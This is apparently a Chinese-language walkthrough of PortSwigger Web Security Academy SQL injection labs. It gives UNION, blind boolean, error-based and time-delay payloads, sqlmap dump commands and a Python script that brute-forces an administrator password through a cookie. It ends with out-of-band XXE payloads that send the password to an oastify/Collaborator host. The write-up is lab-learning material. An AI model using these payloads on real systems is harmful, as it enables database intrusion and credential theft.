

## SQL注入漏洞语句允许检索隐藏数据的位置

这个是查看隐藏数据的漏洞，比较简单。通过BurpSuite直接拦截修改就行。


之所以能隐藏信息是因为后端的查询语句是

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

因此通过我们的修改注释掉了`AND released = 1`

**思考**：

首先对后端查询语句要有一定敏感程度，另外如果AND后的语句在前是否就避免了这个漏洞呢？

<!-- more -->

## SQL注入漏洞允许登录绕过

这个也非常简单，注释掉password就可以登录任意用户了。


**思考**：

对之前挖的几个平台做了一下尝试，没出意外都失败了。果然这么简单的洞不太好遇见。

## SQL注入UNION攻击，确定查询返回的列数

这个使用`?category=Accessones' order by 3--`时不报错，使用`?category=Accessones' order by 4--`时报错，说明返回列有三个。但是不能直接过关，需要使用`'?category=Accessones'UNION SELECT NULL,NULL,NULL--`过关


我们可以看到，虽然执行`order by 4`的时候报错，但是报错代码为500说明还是执行了的。在portswigger中提到：

> ​            As with the `ORDER BY` technique, the application might actually return the database error in its HTTP response, but may  return a generic error or simply return no results. When the number of  nulls matches the number of columns, the database returns an additional  row in the result set, containing null values in each column. The effect on the HTTP response depends on the application's code. If you are  lucky, you will see some additional content within the response, such as an extra row on an HTML table. Otherwise, the null values might trigger a different error, such as a `NullPointerException`. In the  worst case, the response might look the same as a response caused by an  incorrect number of nulls. This would make this method ineffective.        

因此报错语句可以作为是否存在UNION漏洞的参考

在 Oracle 中，每个 SELECT 查询都必须使用 FROM 关键字，并指定一个有效的表。Oracle 上有一个名为 dual 的内置表，可用于此目的。因此，在 Oracle 上注入的查询必须如下所示：

```sql
' UNION SELECT NULL FROM DUAL--
```

MySQL 中，`--`后必须跟一个空格。

有关数据库特定语法的更多详情，请参阅 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

## SQL注入UNION攻击，找到包含文本的列

让找哪个列支持查找字符串，找出一共多少列以后，挨个试试就可以了

```sql
'+UNION+SELECT+'abcdef',NULL,NULL--
```

```sql
?category=Accessories' union select null,'Y5LIpq',null--+
或者
?category=Accessories%' union select null,'Y5LIpq',null--+
或者
?category=Accessories' and 1=2 union select null,'Y5LIpq',null--+
```

## SQL初入UNION攻击，从其他表中检索数据

让检索出管理员账号密码，然后登陆管理员的账号。这道题的重点是当遇到两个能检索出字符串的列时，如何利用。

```sql
' UNION SELECT username, password FROM users--
```

## SQL注入UNION攻击，在单列中检索多个值

当只有一个string列可以被检索时，需要将两个列的内容连接到一个列。

1. 首先通过之前的办法看看有几个可以检索的列
2. 然后检测哪一个列可以检索字符串
3. 最后合并检索用户名和密码

通过检测，可以检索的列有两个，第二个可以检索字符串。将用户名和密码合并到第二列中即可，注入代码：

```sql
'union+select+null,username||'~~~'||password+from+users--
```

不同的数据库使用不同的语法来执行字符串连接。有关详细信息，请参阅[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

| Oracle     | `                    'foo'||'bar'                ` |
| ---------- | -------------------------------------------------- |
| Microsoft  | `                    'foo'+'bar'                `  |
| PostgreSQL | `                    'foo'||'bar'                ` |
| MySQL      | CONCAT('foo','bar')                                |

然而在实际情况下，我们并不能像题目所给出的那样直接获得表名和列名。因此，现实中，我们需要首先获得数据库的表名和列名，才能对其进行查询。

```sql
?category=Gifts' union select null,table_name from information_schema.tables--+

列：username,password
?category=Gifts' union select null,column_name from information_schema.columns where table_name='users'--+

数据:administrator===lcv555mv2prf2m81w40v
?category=Gifts' union select null,concat(username,'===',password) from users--+

利用administrator登录
```

## SQL 注入攻击，查询 MySQL 和 Microsoft 的数据库类型和版本

获得数据库的版本号，比较简单。各个数据库查询数据库版本的语句如下：

| Database type | Query                                                        |
| :------------ | ------------------------------------------------------------ |
| MySQL         | `SELECT @@version`                                           |
| Microsoft     | `SELECT @@version`                                           |
| Oracle        | `SELECT * FROM v$version`<br />`SELECT banner FROM v$version`<br />`SELECT version FROM v$instance` |
| PostgreSQL    | `SELECT version()`                                           |

查询SQL版本的语句：
```sql
'union+select+null,@@version-- +
```

思考：

发现了一个问题，在执行SQL注入时，使用`--`进行注释时需要在其后添加一个空格，即`-- +`。然而刚开始并没有加但是还是过了，因此需要注意。另外这一题是可以使用`#`来注释的，但是前面的却不行，原因目前还不明白。

## SQL 注入攻击，列出非 Oracle 数据库的数据库内容

这一题题目没有给表单和列名，更切合实际情况，实际上跟上面的是一致的。不再过多叙述。

```sql
'union select 'a',null-- =
'union select table_name,null from information_schema.tables-- =
'union select column_name,null from information_schema.columns where table_name='users_vorbge'
'union select username_ucmiyr||'~~~'||password_unmsjv,null from users_vorbge-- =
```

## 利用条件响应进行盲目 SQL 注入

在开始这道题之前呢，有必要了解一下，要解决这道题是有三个必要条件的：

1. **正确和错误的cookie的返回包存在差异**

起初我是很困惑我要多么小心翼翼才能发现`Welcome back!`这一句话的小小差异。然后我就恍然大悟了，我们直接对比response包的大小，如果不一样再找出哪儿不一样就可以了。

2. **cookie允许盲注**

即在cookie后添加`'AND '1'='1`和添加`'AND '1'='2`返回的结果是不同的

3. **我们要查询的表名和列名**

虽然题目直接给了我们表名和列名，当我们都知道，实际情况中并不会有公司摆着洞给我们挖。因此有没有办法通过盲注获得我们需要的表名和列名呢？那当然是有的。

我们要知道，盲注语句是否执行成功我们是可以知道的。那么，是否存在一个表单或者列名，我们也是可以了解的。因此，我们依然可以通过盲注的方式获得表名和列名。

所以是可以使用Python写脚本爆破的，当然也可以用sqlmap工具，非常简便。

<font class=notice>我打算再写一篇sqlmap的用法总结，先这里插个眼</font>

```bash
1.首先进行sql漏洞扫描
sqlmap -u url --cookie "TrackingId=xxx"
2.然后获得当前使用的数据库名称
sqlmap -u url --current-db
3.获得所有表
sqlmap -u url -D "数据库名" --tables
4.获得users表字段
sqlmap -u url -D "数据库名" -T "users" --dump
5.获得users表中的用户名
sqlmap -u url -D "数据库名" -T "users" -C "username" --dump
```

在获得某用户密码的时候，本题只需要我们获得`administrator`的密码就可以了，考虑到密码又多又长，逐个爆破会消耗大量的时间，因此我编写了Python脚本单独对`administrator`用户进行爆破，脚本已经很自动化了，只需要把url和TrackingId换成子自己的就可以了。脚本如下：

```python
from time import sleep
import requests

# 请求的URL
url = "https://0a00000a04a6557481de208a005400a1.web-security-academy.net/filter?category=Pets"
username = 'administrator'
tablename = 'users'
method = 'get'
sleep_time = 0
TrackingId = 'brVO8ubeFsIHT9hw'

#cookie获取密码长度get_password_length_by_user
def get_password_length_by_user(url,username,tablename,intject_id):
    for i in range(100):
        cookies = {
            'TrackingId': f"{intject_id}' and (select 'a' from users where username='{username}' AND LENGTH(password)>{i})='a' --+"
        }
        response = requests.request(url=url,method=method,cookies=cookies)
        sleep(sleep_time)
        if 'Welcome back!' in response.text:
            continue
        else:
            password_length=i
            return password_length
            break

#爆破某一用户名密码
def get_password_by_user(url,username,tablename,inject_id):
    result=''
    password_length=get_password_length_by_user(url,username,tablename,inject_id)
    for password_index in range(1, password_length+1):
        ascii_low = 32
        ascii_high = 128
        ascii_mid=(ascii_low+ascii_high)//2
        while ascii_low < ascii_high:
            cookies = {
                'TrackingId': f"{inject_id}' and ascii(substr((select password from {tablename} where username='{username}'),{password_index},1)) > {ascii_mid}--+;"
            }
            response = requests.request(url=url,method=method,cookies=cookies)
            sleep(sleep_time)
            if 'Welcome back!' in response.text:
                ascii_low=ascii_mid+1
            else:
                ascii_high = ascii_mid
            ascii_mid=(ascii_low+ascii_high)//2
        result+=chr(ascii_mid)
    return result
password=get_password_by_user( url,username,tablename,TrackingId)
print(password)
```

<font class=notice>其实，本题在爆破数据表时，也可以使用Python单独对表名中含有`user`的表进行爆破，但考虑实际情况，把所有的表名爆破出，容易获得更多的信息</font>

## 带有条件错误的盲 SQL 注入

Substring用法：你可以从指定偏移量开始，提取具有指定长度的字符串部分。需要注意的是，偏移量索引是从1开始计数的。以下每个表达式都将返回字符串 `ba`。

| 数据库     | 语法                        |
| :--------- | :-------------------------- |
| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |

跟上一题是非常类似的。讲一下原理

```sql
1、添加单引号收到错误
TrackingId=xyz'
2、添加两个单引号错误消失
TrackingId=xyz''
3、确认是查询错误而不是其他类型错误。下列语句表明目标为Oracle 数据库
TrackingId=xyz'||(SELECT '')||'（错误）
TrackingId=xyz'||(SELECT '' FROM dual)||'（正确）
4、验证users表存在
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
5、验证用户administrator存在
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
6、爆破密码长度
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>§a§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
7、爆破密码
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,§b§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

结果如下：


## 基于可见错误的 SQL 注入(bool型SQL注入)

错误会返回到客户端


```sql
1、天加一个引号，可以在web页面看到报错，并看到自己的cookie
TrackingId=xxx'
2、添加注释符不再报错
TrackingId=xxx'--
3、添加错误的语句观察返回内容
TrackingId=xxx' AND CAST((SELECT 1) AS int)--
4、使用正确语句错误消失
TrackingId=xxx' AND 1=CAST((SELECT 1) AS int)--
5、泄露用户
TrackingId=xxxx' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
6、泄露密码
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

我试了下面这个注入语句，但是没有得到想要的结果。

```sql
TrackingId=' AND 1=CAST((SELECT password FROM users where username='administrator') AS int)--
```


## 带有时间延迟和信息检索的盲 SQL 注入


```sql
1.延迟10秒
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
2.不延时
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
3.延时，说明有administrator用户
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
4.延时，说明密码长度为20
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
5.bp爆破
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§b§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```


## 带外交互的盲 SQL 注入


k8tddk5vl36mmu8y9zj46y1zdqjk7ev3.oastify.com

```sql
Cookie: TrackingId=Mf3GZbtHdrUPYCyR'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//k8tddk5vl36mmu8y9zj46y1zdqjk7ev3.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=7HQmzle2kv8m9yAyiZADwZ8B64e6hGQp
```


## SQL盲注与带外数据渗出

跟上边类似的

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```



## 通过 XML 编码绕过过滤器的 SQL 注入XML绕过注入


本文参考：
